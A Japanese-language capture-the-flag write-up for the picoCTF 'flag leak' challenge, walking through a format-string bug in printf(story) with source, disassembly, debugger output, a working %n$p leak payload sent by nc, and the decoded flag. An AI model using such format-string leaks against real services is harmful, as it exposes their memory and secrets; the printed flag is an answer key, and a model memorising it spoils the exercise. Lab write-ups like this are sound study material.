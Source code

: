 # flag leak : Binary Exploitation

Story telling class 1/2 
I'm just copying and pasting with this [program](vuln). What can go wrong? You can view source [here](vuln.c). And connect with it using: 
`nc saturn.picoctf.net 52043`

Author : Neel Bhavsar

# Solution

とりあえず、実行してみる。
```
$ nc saturn.picoctf.net 52043
Tell me a story and then I'll tell you one >> %p%p%p%p%p%p%p%p%p%p
Here's a story - 
0xff81f0900xff81f0b00x80493460x702570250x702570250x702570250x702570250x702570250xffffff00(nil)
```
ソースコードを確認する。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
pwntoolsのfmtstr_payloadを用いて、printf(story)のstoryのアドレスからreadflag(flag, FLAGSIZE)のflagのアドレスまでの差分をとて、%n$pでflagの内容を出力する。
```
$ checksec vuln
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/colza-picoctf/.cache/.pwntools-cache-3.10/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.13.1)
[*] '/home/colza-picoctf/vuln'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```
storyのアドレスを探す。
```
 804939d:       8d 85 38 ff ff ff       lea    eax,[ebp-0xc8]
 80493a3:       50                      push   eax
 80493a4:       e8 47 fd ff ff          call   80490f0 <printf@plt>
```
```
   0x8049392 <vuln+95>     call   puts@plt                    <puts@plt>

   0x8049397 <vuln+100>    add    esp, 0x10             ESP => 0xffffced0 (0xffffcec0 + 0x10)
   0x804939a <vuln+103>    sub    esp, 0xc              ESP => 0xffffcec4 (0xffffced0 - 0xc)
 ► 0x804939d <vuln+106>    lea    eax, [ebp - 0xc8]     EAX => 0xffffced0 ◂— 'aaaaaaaaaaaaaaaaaaaaa'
```
storyのアドレスが0xffffced0と分かる。  
flagのアドレスを探す。
```
   0x0804934f <+28>:    push   0x40
   0x08049351 <+30>:    lea    eax,[ebp-0x48]
   0x08049354 <+33>:    push   eax
   0x08049355 <+34>:    call   0x80492b6 <readflag>
```
```
   0x08049318 <+98>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0804931b <+101>:   sub    esp,0x4
   0x0804931e <+104>:   push   DWORD PTR [ebp-0xc]
   0x08049321 <+107>:   push   eax
   0x08049322 <+108>:   push   DWORD PTR [ebp+0x8]
   0x08049325 <+111>:   call   0x8049100 <fgets@plt>
```
```
───────────────────────────────────────────[ DISASM / i386 / set emulate on ]───────────────────────────────────────────
 ► 0x8049351 <vuln+30>    lea    eax, [ebp - 0x48]     EAX => 0xffffcf50 —▸ 0xffffcfb8 —▸ 0xf7ffd020 (_rtld_global) ◂— ...
   0x8049354 <vuln+33>    push   eax
   0x8049355 <vuln+34>    call   readflag                    <readflag>
```
```
 ► 0x8049351 <vuln+30>    lea    eax, [ebp - 0x48]     EAX => 0xffffcf50 —▸ 0xffffcfb8 —▸ 0xf7ffd020 (_rtld_global) ◂— ...
   0x8049354 <vuln+33>    push   eax
   0x8049355 <vuln+34>    call   readflag                    <readflag>
```
flagのアドレスが0xffffcf50と分かる。  
0xffffcf50-0xffffced0=0x80  
32bitであることに留意すると、0x80分のoffsetは`0x80/0x4=0x20=32`である。入力からstoryまでのoffsetが4であり、FLAGSIZEが64であるから36~45を出力させれば良い。
```
$ nc saturn.picoctf.net 52043
Tell me a story and then I'll tell you one >>  %36$p%37$p%38$p%39$p%40$p%41$p%42$p%43$p%44$p%45$p
Here's a story - 
0x6f6369700x7b4654430x6b34334c0x5f676e310x67346c460x6666305f0x3474535f0x395f6b630x326539390x7d343238
```
これをcyberchefでFrom HEXする。
```
ocip{FTCk43L_gn1g4lFff0_4tS_9_kc2e99}428
```
並び替える。

flagが得られた。

`picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`

# References

https://medium.com/@0xwan/picoctf-2022-flag-leak-writeup-binary-exploitation-8d5194fb36f0
